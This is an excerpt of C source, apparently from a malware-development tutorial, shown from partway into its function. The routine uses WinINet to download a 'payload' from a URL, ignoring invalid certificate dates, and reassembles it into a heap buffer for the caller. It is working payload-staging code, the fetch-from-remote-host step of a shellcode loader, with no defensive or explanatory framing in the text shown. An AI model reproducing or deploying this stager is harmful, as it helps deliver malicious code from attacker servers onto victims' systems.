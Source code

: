 ```
	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL){
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL){
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL){
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE){

		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}

		sSize += dwBytesRead;

		if (pBytes == NULL)
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

		if (pBytes == NULL) {
			bSTATE = FALSE; goto _EndOfFunction;
		}

		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
		memset(pTmpBytes, '\0', dwBytesRead);

		if (dwBytesRead < 1024){
			break;
		}
	}



	*pPayloadBytes = pBytes;
	*sPayloadSize  = sSize;

_EndOfFunction:
	if (hInternet)
		InternetCloseHandle(hInternet);
	if (hInternetFile)
		InternetCloseHandle(hInternetFile);
	if (hInternet)
		InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	if (pTmpBytes)
		LocalFree(pTmpBytes);
	return bSTATE;
}

```